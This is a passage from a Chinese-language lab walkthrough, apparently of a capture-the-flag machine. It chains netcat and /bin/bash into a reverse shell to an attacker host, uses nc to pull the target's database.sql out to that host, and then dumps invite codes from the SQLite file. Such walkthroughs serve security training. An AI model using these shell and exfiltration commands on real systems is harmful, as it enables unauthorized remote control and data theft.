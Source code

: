 **使用nc串联**

```
#kali监听两个端口,一个作为输入，一个作为接收，3333输入，4444接收
nc -lvvp 3333
nc -lvvp 4444

#poc
netcat | nc 192.168.0.10 3333 | /bin/bash | nc 192.168.0.10 4444
```

现在我们在3333端口执行命令，执行结果会在4444端口显示。

现在我们完成了远程控制





## 5. 信息收集

执行ls命令，发现如下几个文件

```
app.py
database.sql
samples
templates
```

**获取sqlite文件**

```
#kali接收数据
nc -lnvlp 5555 > db.sql

#靶机执行
nc 192.168.0.10 5555 < database.sql
```

这种方式获取到文件后是没有提示的

**在kali 机器上读取sqlite文件**

```shell
#进入sqlite
[root@kali ~]# sqlite3                                                                                                                 127 ⨯
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.

#打开db.sql
sqlite> .open db.sql

#查看数据库路径
sqlite> .database
main: /root/db.sql r/w

#查看内容
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE `code` (
	`password`	TEXT
);
INSERT INTO code VALUES('myinvitecode123');
INSERT INTO code VALUES('mysecondinvitecode');
INSERT INTO code VALUES('cloudavtech');
INSERT INTO code VALUES('mostsecurescanner');
```